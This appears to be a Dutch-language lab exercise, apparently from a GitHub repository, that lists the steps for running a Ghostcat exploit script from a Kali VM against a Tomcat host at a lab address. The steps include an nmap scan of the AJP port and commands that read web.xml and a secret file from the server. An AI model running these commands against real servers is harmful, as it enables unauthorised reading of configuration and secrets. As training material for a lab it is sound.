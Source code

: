 # 4) Starten van de aanval

## 1) Stappen om de aanval succesvol uit te voeren (Kali VM)

- open terminal in kali vm
- voer volgende commando's uit: 
- 4.1) sudo systemctl start ssh
- 4.2) sudo systemctl enable ssh
- 4.3) cd Desktop
- 4.4) sudo chmod +x exploit_ghostcat.py
- 4.5) nmap 10.10.10.4 -p 8009
- 4.6) python3 exploit_ghostcat.py http://10.10.10.4:8080/ 8009 /WEB-INF/web.xml read
- 4.7) python3 exploit_ghostcat.py http://10.10.10.4:8080/ 8009 /WEB-INF/secret.txt read
